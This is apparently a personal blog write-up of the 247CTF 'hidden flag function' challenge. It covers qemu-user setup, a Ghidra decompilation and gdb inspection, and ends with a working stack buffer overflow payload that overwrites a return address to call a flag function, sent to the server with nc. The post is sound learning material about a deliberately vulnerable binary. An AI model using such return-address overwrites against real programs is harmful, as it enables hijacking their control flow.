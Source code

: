```yaml
---
layout: post
title: Tackling the Buffer Overflow
categories: pwn 247ctf
tags: buffer-overflow
---
```


# Introduction
I always kept a distance to buffer overflows. Maybe they're too scary? I don't know.  
But you've got to learn new things, so here we go:

# Hidden Flag Function
> Can you control this applications flow to gain access to the hidden flag function?

Let's run `file` over it:
```
file hidden_flag_function
hidden_flag_function: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=92825cdfbc5b108fc4cfe56d7c6636f837475d4e, not stripped
```

Okay, good it's not stripped. The problem: it's i386. Let's fire up qemu?

Qemu is split into two modes: full system emulation and user mode emulation. While we needed for the Bootloader reversing the system emulator, we only need to run a simple program here.  
I only got qemu system installed, but apparently there is no qemu-user for windows. Good thing I have WSL...

To install qemu user we only need:
```
sudo apt-get install qemu-user
```
Running it "transparently" means running it like a native executable with `./executable`. This works through binfmt (which is kinda cool).

I was following [this](https://ownyourbits.com/2018/06/13/transparently-running-binaries-from-any-architecture-in-linux-with-qemu-and-binfmt_misc/) as a reference, but `./hidden_flag_function` didn't work.  
```
./hidden_flag_function
-bash: ./hidden_flag_function: cannot execute binary file: Exec format error
```
`qemu-i386 hidden_flag_function` also gave a dependency error...
```
qemu-i386 hidden_flag_function
/lib/ld-linux.so.2: No such file or directory
```

To fix this I found [this](https://stackoverflow.com/a/49405982).
TL;DR:
```
sudo apt install qemu-user-static
sudo update-binfmts --install i386 /usr/bin/qemu-i386-static --magic '\x7fELF\x01\x01\x01\x03\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x03\x00\x01\x00\x00\x00' --mask '\xff\xff\xff\xff\xff\xff\xff\xfc\xff\xff\xff\xff\xff\xff\xff\xff\xf8\xff\xff\xff\xff\xff\xff\xff'

sudo dpkg --add-architecture i386
sudo apt update
sudo apt install g++:i386
```

It gave some errors, but I can finally run the program.

Let's look at the program in Ghidra:
```c++
undefined4 main(void)
{
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  setbuf(stdout,(char *)0x0);
  puts("What do you have to say?");
  chall(puVar1);
  return 0;
}
```
So it calls chall():
```c++
void chall(void)
{
  int iVar1;
  undefined local_4c [68];
  
  iVar1 = __x86.get_pc_thunk.ax();
  __isoc99_scanf(iVar1 + 0x133,local_4c);
  return;
}
```

Okay, so I've never done this, but I now how it works in theory.  
Also [here](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/) a guide kinda thingy?  
As it doesn't call any other function, we probably have to overwrite the return address (which is thrown onto the stack %ebp).  
The input is saved in eax + 0x133.
0x133 / 0x4 (char size) = 0x4C = 76

The flag function is at 0x08048576:
```c++
void flag(void)
{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  fgets(local_50,0x40,local_10);
  printf("How did you get here?\nHave a flag!\n%s\n",local_50);
  return;
}
```

So we need to insert `0x76 0x85 0x04 0x08` into $ebp, so we can "return" to the flag function. 

If we break at 0x80485fa (directly after ) with gdb by running `qemu-i386-static -g 1234 hidden_flag_function`, we can print out %ebp:
```
(gdb) target remote localhost:1234
(gdb) break *0x80485fa
(gdb) layout asm
(gdb) layout regs
(gdb) c
...
(gdb) x/8xb $ebp
0xffffdd78:     0x88    0xdd    0xff    0xff    0x4a    0x86    0x04    0x08
```
So $ebp+4 is the return address.

We can also see this better:
```
(gdb) x/a $ebp+4
0xffffdd7c:     0x804864a
```

The code at the address is:
```
0804864a    b8 00 00 00 00     MOV     EAX,0x0
```

Let's do a buffer overflow:
```
python -c "print('a'*78+'\x76\x85\x04\x08')" | qemu-i386-static -g 1234 hidden_flag_function
```

If we look at this in gdb:
```
(gdb) x/s $ebp
0xffffdd78:     "aaaaaav\205\004\b"

(gdb) x/8xb $ebp
0xffffdd78:     0x61    0x61    0x61    0x61    0x61    0x61    0x76    0x85
```

Okay so we need two chars less, so the final command is:
```
python -c "print('a'*76+'\x76\x85\x04\x08')" | ./hidden_flag_function
What do you have to say?
How did you get here?
Have a flag!
gottem
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault (core dumped)
```

Now let's send that to the server:
```
python -c "print('a'*76+'\x76\x85\x04\x08')" | nc <IP> <PORT>
What do you have to say?
How did you get here?
Have a flag!
247CTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

And we done did it.
